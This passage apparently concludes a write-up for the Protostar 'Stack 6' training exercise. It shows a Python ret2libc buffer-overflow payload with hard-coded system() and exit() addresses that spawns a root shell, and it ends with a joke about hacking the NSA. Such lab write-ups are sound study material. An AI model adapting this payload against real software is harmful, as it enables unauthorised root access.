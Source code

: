 ![Stack6](/assets/img/protostar/stack6-system-virtual-address.png)

and i get it `0xb7ecffb0`

so let,s update our exploit to give us  dirty root shell ;)

```py
fuzz="/bin/sh\x00CCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS"
ebp="TTTT"
eip="\xb0\xff\xec\xb7"  #  process virtual address mapping for system which we just have get it now :)
ret="\xc0\x60\xec\xb7" # process virtual address which we get for exit function
message_addr="\x7c\xf7\xff\xbf" # 0xbffff77c address for "Hello Iam Sysc4ll3r :)"                
print(fuzz+ebp+eip+ret+message_addr)
```

![Stack6](/assets/img/protostar/stack6-solved.png)


## Finally

we finally  exploited `Stack 6`

it,s a Sh3llMate not Ch3ckmate XD 

thanks for reading <3 

<img alt="gif" src="https://media1.tenor.com/m/PMITaIPBRBkAAAAC/hack-pc.gif" width="350rem" height="100rem"/>

see you in `Stack7` . because now iam going to hacking `NSA` XD


